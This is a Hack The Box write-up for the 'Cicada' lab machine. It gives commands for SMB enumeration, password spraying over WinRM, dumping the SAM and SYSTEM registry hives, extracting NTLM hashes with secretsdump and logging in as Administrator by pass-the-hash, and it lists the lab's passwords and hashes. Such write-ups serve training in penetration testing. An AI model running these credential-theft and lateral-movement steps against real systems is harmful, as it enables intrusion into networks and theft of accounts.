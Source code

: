 ```yaml
---
title: "Cicada"
date: 2024-12-09
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "cicada", "writeup", "htb"]
---
```


# Cicada

# Cicada

# SMB
![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada1.png]]

## Notice from HR.txt
![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada2.png]]

```text
Cicada$M6Corpb*@Lp#nZp!8
```

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada3.png]]
![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada4.png]]

```sh
enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb -t 10
```

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada5.png]]

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada6.png]]

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada7.png]]

## Backup_script.ps1
![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada8.png]]

Creds for emily.oscars

```sh
nxc winrm cicada.htb -u users.txt -p passwords.txt
```

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada9.png]]
![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada10.png]]

# Privilege Escalation

## Enumeration

```powershell
whoami/all
```

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada11.png]]

## Notes


## Attempts

```powershell
# save SAM and SYSTEM via evil-winrm
reg save hklm\sam sam.hive
reg save hklm\system system.hive

download sam.hive
download system.hive
```

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada12.png]]

```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada13.png]]

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![[🧪 Labs/💚 HTB/Cicada/Attachments//assets/images/cicada14.png]]

# Credentials

| Username          | Password                 | Hash | Source |
| ----------------- | ------------------------ | ---- | ------ |
| david.orelious    | aRt$Lp#7t*VQ!3           |      |        |
| michael.wrightson | Cicada$M6Corpb*@Lp#nZp!8 |      |        |
| emily.oscars      | Q!3@Lp#M6b*7t*Vt         |      |        |
|                   |                          |      |        |

